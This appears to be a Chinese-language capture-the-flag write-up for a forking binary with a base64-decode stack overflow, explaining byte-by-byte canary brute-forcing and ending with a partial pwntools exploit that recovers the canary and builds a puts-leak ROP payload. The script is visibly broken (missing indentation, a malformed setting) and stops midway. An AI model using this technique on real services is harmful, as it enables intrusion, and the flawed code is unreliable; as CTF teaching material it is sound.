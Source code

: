 

这里父进程fork了一个子进程，然后当返回在子进程中时就进入do()函数，返回在父进程中时就阻塞，然后子进程结束后再fork子进程

跟进子进程函数

{%asset_img 1.png%}

很明显是个base64解码，再看看输入时的判断，那么程序的功能就知道了

{%asset_img 2.png%}

{%asset_img 5.png%}

然后再来找漏洞，base64解码后长度变为原来的四分之三，我们可以输入的最大长度为512，解码后保存在一个长度为257的字符数组，那么很明显这里存在一个缓冲区溢出

{%asset_img 3.png%}

{%asset_img 4.png%}

再来看下程序的保护机制：

{%asset_img 6.png%}

发现有canary，那么得绕过，这里有种针对fork进程的爆破方法

http://0x48.pw/2017/03/14/0x2d/

http://veritas501.space/2017/04/28/%E8%AE%BAcanary%E7%9A%84%E5%87%A0%E7%A7%8D%E7%8E%A9%E6%B3%95/

> 对fork而言，作用相当于自我复制，每一次复制出来的程序，内存布局都是一样的，当然canary值也一样。那我们就可以逐位爆破，如果程序GG了就说明这一位不对，如果程序正常就可以接着跑下一位，直到跑出正确的canary。
>
> 另外有一点就是canary的最低位是0x00，这么做为了防止canary的值泄漏。比如在canary上面是一个字符串，正常来说字符串后面有0截断，如果我们恶意写满字符串空间，而程序后面又把字符串打印出来了，那个由于没有0截断canary的值也被顺带打印出来了。设计canary的人正是考虑到了这一点，就让canary的最低位恒为零，这样就不存在上面截不截断的问题了。

那么编写exp:



```
from pwn import *
from base64 import *

context_log_level = 'debug'
bin = ELF('pwns')

libc=ELF('libc.so.6')
puts_plt_addr = bin.plt['puts']
puts_got_addr = bin.got['puts']
vulc_addr = 0x080487E6
p = process('./pwns')



canary = '\x00'
p.recvuntil('May be I can know if you give me some data[Y/N]\n')
for i in range(3):

for j in range(256):
    p.send('Y\n')
    p.send(b64encode('a'*257+ canary + chr(j)))
    recv =p.recvuntil('May be I can know if you give me some data[Y/N]\n')
    if 'Finish' in recv:
        canary += chr(j)
        break

print 'find canary:'+canary.encode('hex')

pay1 = 'a'*257+ canary +'a'*12+flat(puts_plt_addr,vulc_addr,puts_got_addr)
p.send('Y\n')

p.recvuntil('Give me some datas:\n\n')
```